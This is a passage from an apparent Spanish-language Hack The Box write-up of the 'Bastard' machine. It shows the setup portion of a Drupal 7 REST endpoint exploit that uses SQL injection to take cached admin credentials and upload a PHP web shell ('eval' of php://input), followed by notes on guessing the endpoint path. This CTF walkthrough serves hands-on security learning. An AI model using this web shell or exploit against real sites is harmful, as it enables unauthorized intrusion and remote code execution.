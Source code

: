 Este `exploit` aprovecha una inyeccion `sql` para obtener la cache del endpoint y credenciales de administrador en hash, para despues tratar de subir un archivo `php`.

```php
# Initialization

error_reporting(E_ALL);

define('QID', 'anything');
define('TYPE_PHP', 'application/vnd.php.serialized');
define('TYPE_JSON', 'application/json');
define('CONTROLLER', 'user');
define('ACTION', 'login');

$url = 'http://vmweb.lan/drupal-7.54';
$endpoint_path = '/rest_endpoint';
$endpoint = 'rest_endpoint';

$file = [
    'filename' => 'dixuSOspsOUU.php',
    'data' => '<?php eval(file_get_contents(\'php://input\')); ?>'
];

$browser = new Browser($url . $endpoint_path);
```

Para utulizar el `exploit`, primero debemos cambiar ciertas variables que define el `exploit` como la `url` y el `endpoint_path`. En este caso debemos verificar si `rest_endpoint` existe.

![](/assets/images/HTB/htb-writeup-Bastard/drupal2.PNG)

Vemos que `rest_endpoint` no existe asi que podemos tratar usar un poco de `guesing` y probar la ruta `rest`.

